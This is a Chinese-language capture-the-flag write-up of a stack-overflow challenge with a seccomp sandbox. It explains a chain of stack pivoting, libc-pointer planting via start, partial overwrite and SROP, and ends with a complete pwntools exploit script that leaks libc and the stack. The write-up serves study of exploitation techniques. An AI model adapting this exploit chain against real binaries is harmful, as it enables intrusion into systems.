



> 这是出的比较迟的题目，结束的时候还有385，当时比赛第二天在看这题，但是没做出来

漏洞点很明显，就是一个很大的栈溢出，另外可以将`byte ptr[rbp-8]`的值改为我们输入的长度
但是题目也限制了沙箱，顺便推一下我写的沙箱工具[ceccomp](https://github.com/dbgbgtf1/Ceccomp)XD


# 利用手法

赛后看了[星盟的WP](https://mp.weixin.qq.com/s?__biz=MzU3ODc2NTg1OA==&mid=2247494473&idx=1&sn=285d1900b6b4779cdf8a86b380e7fe8a&chksm=fc7306b38655bd891e1f2900c0c01edf2f4210947d0f2842b0a3e9c045b750c70e30c22599f0&mpshare=1&scene=23&srcid=10219S6e8zuF53TzTqXTGFcn&sharer_shareinfo=00bd8158b53f3dd6f9c313bda7fe775e&sharer_shareinfo_first=e7859b1e7b94c840c3a762d95b3f5cef#rd)，大致思路是通过start来在bss区留下libc的rx段指针用来覆盖，在通过`libc_start_main`附近的一个`mov eax, edx; syscall`的gadget来利用
我当时没想到可以用start来留下指针，在考虑用stdin，stdout等指针利用



于是思路就很清晰了，栈迁移到bss，在bss上用两次start留下可覆写的`libc_start_main`附近的指针(因为需要用到两次)
构造好两次用来srop的Sigframe和返回地址后
在一次的read只写入0xf个字节，并跳转到先前准备好的`mov eax, edx; syscall`来执行sigreturn系统调用(sigreturn调用号为0xf)

在第一次的sigreturn将rip设置为随便一个`ret`
并让rsp设置为先前准备好的另一个`libc_start_main`覆写得到的`syscall`地址(也就是两个指针一个取`mov eax, edx; syscall`，另一个取`syscall`)
rax设为1，rdi设为1，rsi设为got表上read或是其他有libc的地址，rdx设为0xf

这样就可以执行一次write获取libc地址，至此最难的部分就结束了。
前面说到rdx设为0xf是为了让write的返回值rax也为0xf，由于我们找的这个`syscall`比较特殊，在`syscall`后会jmp到原来的位置，继续执行下一次`syscall`
这里就可以让第二次syscall执行sigreturn，这样就可以用到第二个准备的srop的Sigframe了，然后只要再回到start走rop读取栈上的环境变量即可



```python
from pwn import *
from pwnlib.rop import gadgets

context(
    terminal=['kitty'],
    os='linux',
    arch='amd64',
    log_level='debug',
)

main = 0x4015A8
main_ = 0x4015FB
start = 0x401170

rbp = 0x404038
bss = 0x404800
ret = 0x40161F
cnt = 0x404018

libc = ELF('./libc.so.6')
elf = ELF('./chall')
io = remote('127.0.0.1', 9000)

payload = p64(0x0) * 3 + p64(0x404000) + p64(0x404800) + p64(main_)
io.send(payload)
sleep(0.1)
payload = p64(0x0) * 3 + p64(0x404000) + p64(0x0) + p64(start)
io.send(payload)
sleep(0.1)
payload = p64(0x0) * 3 + p64(0x404000) + p64(0x0) + p64(start)
io.send(payload)
sleep(0.1)
payload = p64(0x0) * 3 + p64(0x404000) + p64(0x4046d0) + p64(main_)
io.send(payload)
sleep(0.1)
frame = SigreturnFrame()
frame.rip = start
frame.rsp = 0x404800
frame.rbp = 0x404800
frame['uc_stack.ss_flags'] = 0x404000
frame['uc_stack.ss_size'] = 0x404600
frame.r8 = main_
payload = bytes(frame)
io.send(payload)
sleep(0.1)
payload = p64(0x0) * 3 + p64(0x404000) + p64(0x4047D0) + p64(main_)
payload = payload.ljust(0xc8, b'\x00')
# 1/16 here
payload += p16(0x6db4)
io.send(payload)
sleep(0.1)
frame = SigreturnFrame()
frame.rax = 0x1
frame.rdi = 0x1
frame.rsi = 0x403fc0
frame.rdx = 0xf
frame.rsp = 0x4046A8
frame.rbp = 0x4046A8
frame.rip = ret
frame['uc_stack.ss_flags'] = 0x404000
frame['uc_stack.ss_size'] = 0x404798
frame.r8 = main_
payload = bytes(frame)
io.send(payload)

sleep(0.1)
# 1/16 here, but it share the same 1/16 with the earlier one
payload = p64(0x0) * 3 + p64(0x404000) + p64(0x4047a0) + p64(main_) + p16(0x6db2)
io.send(payload)

sleep(0.1)
payload = p64(main_) + b'a' * 0x7
io.send(payload)

# io.recvuntil(b'\n')
# io.recvuntil(b'\n')
# io.recvuntil(b'\n')
# this is for local test
libc.address = u64(io.recv(0x8)) - 0x114840
io.recv(0x7)
print(hex(libc.address))

gadgets = ROP(libc)
rax = gadgets.rax.address
rdi = gadgets.rdi.address
rsi = gadgets.rsi.address
rbp = gadgets.rbp.address
rdx_rbx = 0x904a9 + libc.address
syscall = 0x91316 + libc.address

sleep(0.1)
rop = flat(
    rax, 0x1,
    rdi, 0x1,
    rsi, libc.address - 0x2228,
    rdx_rbx, 0x8, 0x0,
    rbp, 0x404800,
    syscall,
    main_,
)
payload = p64(0x0) * 3 + p64(0x404000) + p64(0x0) + rop
io.send(payload)

stack = (u64(io.recv(0x8)) &~ 0xfff) + 0xf00
print(hex(stack))
sleep(0.1)
rop = flat(
    rax, 0x1,
    rdi, 0x1,
    rsi, stack,
    rdx_rbx, 0x100, 0x0,
    syscall,
    main_,
)
payload = p64(0x0) * 3 + p64(0x404000) + p64(0x404800) + rop
io.send(payload)

# print(io.recvall())
io.interactive()
```

